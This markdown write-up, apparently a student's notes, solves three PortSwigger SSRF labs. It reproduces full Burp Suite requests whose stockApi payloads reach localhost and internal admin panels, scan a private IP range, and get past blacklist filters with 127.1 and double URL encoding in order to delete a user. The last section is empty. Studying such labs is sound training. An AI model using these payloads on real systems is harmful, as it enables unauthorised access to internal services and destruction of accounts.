 ```yaml
---
title: BurpSuite Labs - Server Side Request Forgery
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - burpsuite
  - ssrf
---
```

# BurpSuite Labs - Server Side Request Forgery

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#payloads-with-localhost

## Basic SSRF against the local server

### Enunciation

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

### Solution

```
POST /product/stock HTTP/2
Host: 0a1600f6034ecb0581760c6200e30093.web-security-academy.net
Cookie: session=nQDGMiUWrUCVsa4ZXP4RoToYgd4biWt5
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1600f6034ecb0581760c6200e30093.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 64
Origin: https://0a1600f6034ecb0581760c6200e30093.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http%3A%2F%2Flocalhost%2Fadmin%2Fdelete?username=carlos
```

![ssrf 1](../img/ssrf_01.png)


1. Browse to `/admin` and observe that you can't directly access the admin page.
2. Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
3. Change the URL in the `stockApi` parameter to `http://localhost/admin`. This should display the administration interface.
4. Read the HTML to identify the URL to delete the target user, which is:
    
    `http://localhost/admin/delete?username=carlos`
    
1. Submit this URL in the `stockApi` parameter, to deliver the SSRF attack.


## Basic SSRF against another back-end system

### Enunciation

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, use the stock check functionality to scan the internal `192.168.0.X` range for an admin interface on port 8080, then use it to delete the user `carlos`.

### Solution

Launch a scan request with intruder

```
POST /product/stock HTTP/2
Host: 0a81003a04cbb66585aa2164005e00d9.web-security-academy.net
Cookie: session=ukVLJOQMDp5wqxujhaw2c21t5Xt8XcYq
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a81003a04cbb66585aa2164005e00d9.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: https://0a81003a04cbb66585aa2164005e00d9.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http://192.168.0.§1§:8080/admin/
```

![ssrf 1](../img/ssrf_021.png)



Now we know that the address is http://192.168.0.16:8080/admin/, so we can send the delete request for user carlos.

```
POST /product/stock HTTP/2
Host: 0a81003a04cbb66585aa2164005e00d9.web-security-academy.net
Cookie: session=ukVLJOQMDp5wqxujhaw2c21t5Xt8XcYq
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a81003a04cbb66585aa2164005e00d9.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Origin: https://0a81003a04cbb66585aa2164005e00d9.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http://192.168.0.16:8080/admin/delete?username=carlos
```


![ssrf 1](../img/ssrf_022.png)

1. Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Intruder.
2. Click "Clear §", change the `stockApi` parameter to `http://192.168.0.1:8080/admin` then highlight the final octet of the IP address (the number `1`), click "Add §".
3. Switch to the Payloads tab, change the payload type to Numbers, and enter 1, 255, and 1 in the "From" and "To" and "Step" boxes respectively.
4. Click "Start attack".
5. Click on the "Status" column to sort it by status code ascending. You should see a single entry with a status of 200, showing an admin interface.
6. Click on this request, send it to Burp Repeater, and change the path in the `stockApi` to: `/admin/delete?username=carlos`


## SSRF with blacklist-based input filters

### Enunciation

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

The developer has deployed two weak anti-SSRF defenses that you will need to bypass.

### Solution

```
POST /product/stock HTTP/2
Host: 0a7700f4041232118111d52d000100ab.web-security-academy.net
Cookie: session=zdzvJtvkFadrRM96wa1vXhMF7G2zfSkN
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a7700f4041232118111d52d000100ab.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Origin: https://0a7700f4041232118111d52d000100ab.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http://127.1/%25%36%31dmin
```

![ssrf 3](../img/ssrf_031.png)



Now we know that we need to use the filters: 

- 127.1
- double url encoding of "a" character in the word 'admin.'

so we can send the delete request for user carlos.

```
POST /product/stock HTTP/2
Host: 0a7700f4041232118111d52d000100ab.web-security-academy.net
Cookie: session=zdzvJtvkFadrRM96wa1vXhMF7G2zfSkN
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a7700f4041232118111d52d000100ab.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Origin: https://0a7700f4041232118111d52d000100ab.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http://127.1/%25%36%31dmin/%25%36%34elete?username=carlos
```

![ssrf 3](../img/ssrf_032.png)


1. Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
2. Change the URL in the `stockApi` parameter to `http://127.0.0.1/` and observe that the request is blocked.
3. Bypass the block by changing the URL to: `http://127.1/`
4. Change the URL to `http://127.1/admin` and observe that the URL is blocked again.
5. Obfuscate the "a" by double-URL encoding it to %2561 to access the admin interface and delete the target user.


## SSRF with filter bypass via open redirection vulnerability

### Enunciation

### Solution
